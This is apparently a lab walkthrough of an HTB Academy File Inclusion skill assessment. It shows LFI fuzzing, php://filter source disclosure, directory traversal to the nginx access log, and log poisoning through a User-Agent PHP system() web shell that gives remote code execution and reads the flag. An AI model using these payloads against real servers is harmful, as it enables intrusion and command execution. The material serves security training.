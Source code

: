 # Skill Assessment HTB File Inclusion Writeup

After completing the File Inclusion module on HTB Academy, I proceeded to the skill assessment. Below is a detailed walkthrough of my approach and findings.

## Target Reconnaissance
I began by navigating to the provided target in my browser.

![Screenshot 2025-04-16 122158](https://github.com/user-attachments/assets/139d79ef-db19-4cb3-abb2-2b2773878a25)

After reviewing the site, I identified the page parameter as a potential vector for file inclusion, as shown in the screenshot above.

## Parameter Testing and LFI Fuzzing
Using Burp Suite, I intercepted requests and tested the page parameter with payloads from `LFI-Jhaddix.txt`. The responses indicated two distinct sizes: one for invalid input and another for less interesting content. 

![Screenshot 2025-04-16 123012](https://github.com/user-attachments/assets/d6a66a10-f594-43e9-8362-ae1e52765437)

## Exploring PHP Wrappers 

Since direct LFI attempts yielded no valuable results, I pivoted to PHP wrappers. I first tried reading the contact resource using the php://filter wrapper and base64-decoded the output, but found nothing useful.

```bash
php://filter/read=convert.base64-encode/resource=contact
```

![Screenshot 2025-04-16 124448](https://github.com/user-attachments/assets/aceb9d96-afa5-4f37-844d-dbee885ace76)

So I decoded it and found that its content was not useful so I thought of fuzzing the PHP files using ffuf
```bash
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt:FUZZ -u http://83.136.255.230:36621/FUZZ.php
```
![image](https://github.com/user-attachments/assets/eb56a909-377e-4416-87c2-5fb46eecd192)

But when I tried with index as a resource. Found something interested. 
```bash
php://filter/read=convert.base64-encode/resource=index
```
![Screenshot 2025-04-16 130346](https://github.com/user-attachments/assets/2f21001a-6718-4656-8441-ba11715c7d61)

Unsanitaized Admin page is found here. This indicates that there is a hidden Admin panel and it displays some logs.

![Screenshot 2025-04-16 130633](https://github.com/user-attachments/assets/b782e58c-6fb1-46ca-ba5d-460d0392b1e6)

I also noticed that there is another parameter that specifies the type of logs that are displayed, So I tried to use LFI payloads and it worked.

![image](https://github.com/user-attachments/assets/283fae8e-145d-4b12-b332-386e275bb07e)

Then I tried to access the file that contains the web application’s logs by fuzzing these files to reach the correct path.

```bash
ffuf -w ./Downloads/LFI-gracefulsecurity-linux.txt:FUZZ -u http://94.237.55.96:37944/ilf_admin/index.php?log=../../../../../../../../../../FUZZ -fs 2046
```
![image](https://github.com/user-attachments/assets/b9c06d60-c591-430d-9813-4766a8a284ea)

```bash
index.php?log=../../../../../../../../../..//var/log/nginx/access.log&cmd=id
User Agent: <?php system ($_GET['cmd']); ?>
```

![Screenshot 2025-04-16 135741](https://github.com/user-attachments/assets/249a9d64-e80d-40e2-a949-d9c4f56049b3)

Found uid, gid and groups that means we can confirm _Remote Code Execution (RCE)_ and can get the flag by using shell as a user agent.
## Confirmed Remote Code Execution and Retrieving the Flag

With code execution established, I used the same technique to list files and retrieve the flag.

### This lists out the files/folders in the directory.
```bash
php?log=../../../../../../../../../..//var/log/nginx/access.log&cmd=ls+/
```
![Screenshot 2025-04-16 135803](https://github.com/user-attachments/assets/7b75caeb-df7f-48db-a092-abb3404636cf)

### This retrives the flag.
```bash
php?log=../../../../../../../../../..//var/log/nginx/access.log&cmd=cat+/<file_name>
```
Happy Hacking.
